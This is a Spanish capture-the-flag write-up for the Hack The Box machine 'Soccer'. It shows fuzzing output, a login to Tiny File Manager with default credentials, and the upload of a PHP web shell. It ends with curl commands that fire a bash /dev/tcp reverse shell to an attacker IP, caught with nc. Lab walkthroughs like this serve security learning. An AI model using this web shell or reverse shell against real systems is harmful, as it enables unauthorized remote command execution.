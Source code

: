```bash
000045226:   200        147 L    526 W      6917 Ch     "http://socc
                                                        er.htb/"    

Total time: 0
Processed Requests: 220546
Filtered Requests: 220544
Requests/sec.: 0
```

leyendo el codigo fuente del login en la carpeta /tiny/ se encuentra la version del servicio (?
```html
<a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">CCP Programmers</a> &mdash;&mdash;
```

tiny file manager default credentials

Default username/password: admin/admin@123 and user/12345.

ambas se pueden usar para loguearse
se pueden subir archivos en http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload

el siguinte archivo es una web shell
```php
<?php
  echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
?>
```

prefiero subirlo por url, haciendo un servidor http con python3


```bash
python3 -m http.server
```

en la url para subir
http://10.10.14.133:8000/rv.php

el archivo se encuentra en la ruta /tiny/uploads/
lo encontre gracias a que la pagina de subida te musetra la carpeta destino 
Destination Folder: /var/www/html/tiny/uploads  

```bash
curl http://soccer.htb/tiny/uploads/rv.php\?cmd=id
curl "http://soccer.htb/tiny/uploads/rv.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.133/1337 0>&1'"
```

hay que urlencodear la url para que tome bien el comando y ponerse en escucha con nc

por un lado
```bash
nc -lnvp 1337
```

por otro lado
```bash
curl 'http://soccer.htb/tiny/uploads/rv.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.133/1337+0>%261"'
```

